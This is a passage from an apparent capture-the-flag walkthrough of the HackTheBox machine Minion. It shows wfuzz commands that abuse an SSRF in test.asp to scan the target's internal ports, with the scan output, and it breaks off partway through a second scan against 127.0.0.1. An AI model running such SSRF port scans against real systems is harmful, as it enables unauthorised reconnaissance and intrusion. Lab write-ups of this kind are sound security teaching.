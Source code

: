 ## Shell as defaultapppool

### Blind RCE Via Admin Panel

#### Fuzz for Open Ports

It seems that `test.asp` cannot access pages on my host, but it can load
pages from Minion itself. I'll use `wfuzz` to try all ports, hiding any
500 responses with `--hc 500`:



    oxdf@hacky$ wfuzz -u http://10.10.10.57:62696/test.asp?u=http://10.10.10.57:FUZZ/ -z range,1-65535 --hc 500
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.10.10.57:62696/test.asp?u=http://10.10.10.57:FUZZ/
    Total requests: 65535

    ===================================================================
    ID           Response   Lines    Word     Chars       Payload                                                                
    ===================================================================

    000000080:   200        0 L      0 W      0 Ch        "80"
    000005985:   200        0 L      0 W      0 Ch        "5985"
    000047001:   200        0 L      0 W      0 Ch        "47001"
    000062696:   200        13 L     37 W     458 Ch      "62696"

    Total time: 7341.232
    Processed Requests: 65535
    Filtered Requests: 65531
    Requests/sec.: 8.926974



This takes a long time to run completely, but it doesn't take long to
find port 80. Still, it's an empty (0 character response. I'll try the
same scan, but this time using `127.0.0.1` instead of `10.10.10.57`:



    oxdf@hacky$ wfuzz -u http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:FUZZ/ -z range,1-65535 --hc 5
    00
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:FUZZ/
    Total requests: 65535

    ===================================================================
    ID           Response   Lines    Word     Chars       Payload                                                                
    ===================================================================
